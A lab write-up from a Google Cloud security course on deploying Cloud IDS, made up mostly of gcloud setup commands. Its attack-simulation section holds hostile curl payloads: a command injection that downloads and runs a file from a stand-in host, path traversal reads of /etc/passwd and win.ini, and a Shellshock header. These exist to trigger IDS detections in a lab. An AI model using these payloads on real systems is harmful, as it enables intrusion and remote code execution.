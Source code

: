 # 🛡️ Lab: Getting Started with Cloud IDS

---

## 🧪 Lab Summary

In this lab, you deploy and test **Google Cloud IDS (Intrusion Detection System)**. The lab walks through deploying a Cloud IDS endpoint, simulating multiple threats, and reviewing threat detection and response through the Cloud Console and Logging.

---

## 🎯 Objectives

- Create a VPC and configure private services access
- Deploy a Cloud IDS endpoint
- Create two VMs: one attacker and one target server
- Configure a Cloud IDS packet mirroring policy
- Simulate attack traffic
- Review threat data in Cloud Console and Logging

---

## 🛠️ Reference Commands

### Enable Required APIs
```bash
gcloud services enable servicenetworking.googleapis.com
gcloud services enable ids.googleapis.com
gcloud services enable logging.googleapis.com
```

### Create VPC and Subnet
```bash
gcloud compute networks create cloud-ids --subnet-mode=custom
gcloud compute networks subnets create cloud-ids-useast1 \
  --range=192.168.10.0/24 --network=cloud-ids --region=us-east1
```

### Configure Private Services Access
```bash
gcloud compute addresses create cloud-ids-ips \
  --global --purpose=VPC_PEERING \
  --addresses=10.10.10.0 --prefix-length=24 \
  --description="Cloud IDS Range" --network=cloud-ids

gcloud services vpc-peerings connect \
  --service=servicenetworking.googleapis.com \
  --ranges=cloud-ids-ips --network=cloud-ids
```

### Create IDS Endpoint
```bash
gcloud ids endpoints create cloud-ids-east1 \
  --network=cloud-ids --zone=us-east1-b \
  --severity=INFORMATIONAL --async
```

### Create Firewall Rules
```bash
gcloud compute firewall-rules create allow-http-icmp \
  --direction=INGRESS --priority=1000 \
  --network=cloud-ids --action=ALLOW \
  --rules=tcp:80,icmp --source-ranges=0.0.0.0/0 --target-tags=server

gcloud compute firewall-rules create allow-iap-proxy \
  --direction=INGRESS --priority=1000 \
  --network=cloud-ids --action=ALLOW \
  --rules=tcp:22 --source-ranges=35.235.240.0/20
```

### Create Cloud NAT
```bash
gcloud compute routers create cr-cloud-ids-useast1 \
  --region=us-east1 --network=cloud-ids

gcloud compute routers nats create nat-cloud-ids-useast1 \
  --router=cr-cloud-ids-useast1 --router-region=us-east1 \
  --auto-allocate-nat-external-ips --nat-all-subnet-ip-ranges
```

### Create VMs
```bash
gcloud compute instances create server \
  --zone=us-east1-b --machine-type=e2-medium \
  --subnet=cloud-ids-useast1 --no-address \
  --private-network-ip=192.168.10.20 \
  --metadata=startup-script='#! /bin/bash\nsudo apt-get update\nsudo apt-get -qq -y install nginx' \
  --tags=server --image=debian-11-bullseye-v20240709 \
  --image-project=debian-cloud --boot-disk-size=10GB

gcloud compute instances create attacker \
  --zone=us-east1-b --machine-type=e2-medium \
  --subnet=cloud-ids-useast1 --no-address \
  --private-network-ip=192.168.10.10 \
  --image=debian-11-bullseye-v20240709 \
  --image-project=debian-cloud --boot-disk-size=10GB
```

### Mirror Packets to Cloud IDS
```bash
export FORWARDING_RULE=$(gcloud ids endpoints describe cloud-ids-east1 \
  --zone=us-east1-b --format="value(endpointForwardingRule)")

gcloud compute packet-mirrorings create cloud-ids-packet-mirroring \
  --region=us-east1 --collector-ilb=$FORWARDING_RULE \
  --network=cloud-ids --mirrored-subnets=cloud-ids-useast1
```

### Simulate Attack Commands (Run on Attacker VM)
```bash
# Low Severity
curl "http://192.168.10.20/weblogin.cgi?username=admin';cd /tmp;wget http://123.123.123.123/evil;sh evil;rm evil"

# Medium Severity
curl http://192.168.10.20/?item=../../../../WINNT/win.ini
curl http://192.168.10.20/eicar.file

# High Severity
curl http://192.168.10.20/cgi-bin/../../../..//bin/cat%20/etc/passwd

# Critical Severity
curl -H 'User-Agent: () { :; }; 123.123.123.123:9999' http://192.168.10.20/cgi-bin/test-critical
```

---

## ✅ Validation

- [x] Enabled necessary APIs
- [x] Created VPC and subnet
- [x] Deployed IDS endpoint
- [x] Created and configured firewall rules
- [x] Created VMs and prepared server with EICAR test file
- [x] Simulated network attacks and verified IDS detection
- [x] Viewed threats via Cloud IDS and Cloud Logging

---

**Course:** Security in Google Cloud  
**Module:** Intrusion Detection with Cloud IDS  
**Completed by:** Lisa Mary Lee  
**Date:** May 15, 2025
